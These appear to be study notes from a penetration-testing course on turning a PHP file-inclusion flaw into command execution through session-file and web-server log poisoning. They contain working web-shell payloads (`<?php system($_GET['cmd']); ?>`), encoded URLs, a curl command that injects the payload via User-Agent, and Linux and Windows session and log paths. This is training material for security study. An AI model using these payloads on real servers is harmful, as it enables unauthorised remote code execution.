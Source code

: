 # PHP Session 

Writing PHP code in a field we control that gets logged into a log file (i.e. `poison`/`contaminate` the log file), and then include that log file to execute the PHP code.

session cookies are stored in: `/var/lib/php/sessions/` or `C:\Windows\Temp\`

filename of cookie will be `sess_` + PHPSESS cookie

here we can access our attribute - for example what page we are at


using that, we can also try to modify the value 

```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```
this would change the page that we are at to session_poisoning instead of whatever language page we are at

then we can use a payload here: 
```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

then we can nagivate to the cookie file in the url and add
```
&cmd=id
```

# Server Log Poisioning
Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`

we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above.

|         | Apache                  | Linux             |
| ------- | ----------------------- | ----------------- |
| Windows | `C:\xampp\apache\logs\` | `C:\nginx\log\`   |
| LInux   | `/var/log/apache2/`     | `/var/log/nginx/` |
use Burp Suite to intercept request and change the User-Agent to `<?php system($_GET['cmd']); ?>`

or use curl
```
echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison

curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison
```

then we nagivate here 
```
/index.php?language=/var/log/apache2/access.log&cmd=id
```

service logs we may be able to read:

- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`